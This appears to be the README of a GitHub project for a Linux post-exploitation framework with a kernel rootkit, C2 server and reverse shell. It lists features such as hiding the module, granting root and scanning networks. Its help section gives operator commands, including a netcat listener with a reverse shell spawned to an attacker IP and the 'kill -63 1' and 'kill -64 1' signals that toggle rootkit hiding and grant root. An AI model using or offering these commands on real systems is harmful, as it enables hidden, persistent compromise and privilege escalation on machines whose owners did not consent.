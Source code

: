 # mobcc

Mob CC is a post exploitation framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Note:
  - Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


# Resources:
Learn how to create Linux Kernel modules: https://xcellerator.github.io/posts/linux_rootkits_01/